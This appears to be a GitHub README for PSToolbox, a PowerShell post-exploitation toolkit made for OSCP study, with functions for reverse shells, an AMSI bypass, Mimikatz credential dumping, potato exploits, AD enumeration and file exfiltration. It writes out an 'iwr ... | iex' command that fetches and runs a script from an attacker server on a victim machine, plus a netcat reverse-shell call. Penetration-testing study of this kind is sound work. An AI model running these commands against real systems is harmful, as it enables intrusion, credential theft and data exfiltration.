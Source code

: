 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a custom python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine. It was created as a part of my studies for the OSCP exam and are intended to make tasks during the exam easier.

Functions

    Set-PSToolBoxConfig: Configure global variables including the attacker's IP, web server port, protocol, and toolbox location on the victim machine. This will run automattically when the ps1 is run. In some shells the prompts are not shown but the inputs are still expected. if you set the global variables yourself before running the script you can skip this step.
    Show-PSToolboxConfig: Display the current configuration.
    Get-SingleToolboxItem: Download a single item from the toolbox. Take a location 
    Bypass-AMZEE: Load a script to bypass AMZEE. Select your method. 
    Load-Pview: Load the PowerView script into memory.
    Start-LigoloAgent: Start the Ligolo reverse tunnel agent. Uses default port unless specified.
    Start-SharpHound: Execute SharpHound for Active Directory enumeration.
    Start-Shell: Establish a reverse shell connection.
    Load-ScriptItemInMemory: Load a script item directly into memory.
    Start-AdEnum: Perform Active Directory enumeration with homegrown adenum.ps1.
    Start-Winpeas: Execute WinPEAS for privilege escalation.
    Start-Mimikatz: Execute Mimikatz for credential dumping.
    Get-potatos: Download potato exploits.
    Send-FilesHome: Exfiltrate files to the attacker's server.
    UploadStringToWebServer: Upload a string to the web server as a file.
    UploadToWebServer: Upload files to the web server.
    Get-ToolboxItems: Download multiple toolbox items based on a match string.
    
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
*NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip, web server port, is web server secure (https), and Local toolbox directory (defaults to c:\users\public). If the prompts do not echo in your shell they are still waiting for input in this order.  If you would rather set the global variables before running the script this portion will be sckipped.

	#Show the current config
	Show-PSToolboxConfig

	#Reset the config
	Set-PSToolboxConfig -Reset

	#Download all linked files that match linpeas	
	gti -m linpeas
	
	#Download a single toolbox item instead of doing a recursive search
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1'

	#download single item and save with different name
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1' -name 'ad.ps1'

	#Start a netcat reverse shell to the attacker host
	Start-Shell -Type NC -port 4444

This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments


